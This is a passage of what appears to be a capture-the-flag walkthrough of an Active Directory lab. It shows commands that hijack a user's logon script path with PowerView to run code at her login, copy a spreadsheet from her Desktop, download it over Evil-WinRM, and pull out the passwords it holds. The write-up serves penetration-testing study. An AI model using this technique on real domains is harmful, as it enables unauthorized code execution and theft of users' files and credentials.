 * Unfortunately it did not work

I also tried to use the logonscript.ps1 found in BloodHound and using PowerView, we can use the following:

Creating file marialogonscript.ps1:

```
echo 'cmd /c "dir > C:\Programdata\output.txt"' > marialogonscript.ps1
```

Contents of marialogonscript.ps1:

```
cmd /c "dir > C:\Programdata\output.txt"
```

```
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\Programdata\marialogonscript.ps1"}
```

I then waited for the Maria user to login

We then see an output.txt and notice that we get the system32 directory. However, we want her Desktop:

Modifying marialogonscript.ps1:

```
C:\Programdata> echo 'cmd /c "dir C:\Users\maria\Desktop > C:\Programdata\dirout.txt"' > marialogonscript.ps1
```

We then wait for her to login again:

I see an Engines.xls

Copy Engines.xls to Programdata:

```
echo 'cmd /c "copy C:\Users\maria\Desktop\Engines.xls C:\Programdata\Engines.xls"' > marialogonscript.ps1
```

Download Engines.xls to Kali from Evil-WinRM:

```
download C:\Programdata\Engines.xls
```

Using LibreOffice:

<figure><img src="../../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

We can do the same by running strings:

```
strings C:\Programdata\Engines.xls

maria
W3llcr4ft3d_4cls
d34gb8@
0de_434_d545
```
